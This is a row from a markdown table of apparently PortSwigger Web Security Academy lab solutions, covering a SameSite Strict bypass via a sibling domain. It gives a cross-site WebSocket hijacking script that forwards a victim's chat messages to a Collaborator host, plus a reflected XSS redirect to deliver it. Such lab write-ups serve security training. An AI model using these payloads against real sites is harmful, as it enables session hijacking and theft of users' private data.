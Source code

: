 |50    |SameSite Strict bypass via sibling domain                                                                                |<script>     var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');     ws.onopen = function() {         ws.send("READY");     };     ws.onmessage = function(event) {         fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});     }; </script>  URL encode the script, and use this in a reflected XSS attack. Deliver to victim.  <script>     document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything"; </script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |Cross-site WebSocket hijacking. Exfiltrate the victims chat history.  Sibling domain at cms-labid disclosed in the Access-Control-Allow-Origin header.  Use reflected XSS attack to launch the CSWSH attack without being mitigated by SameSite restrictions. When delivered to a victim, this will cause the Cookie to be sent to the CSWSH attack and obtain the full chat history.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |CSRF, Practitioner, Review                  |
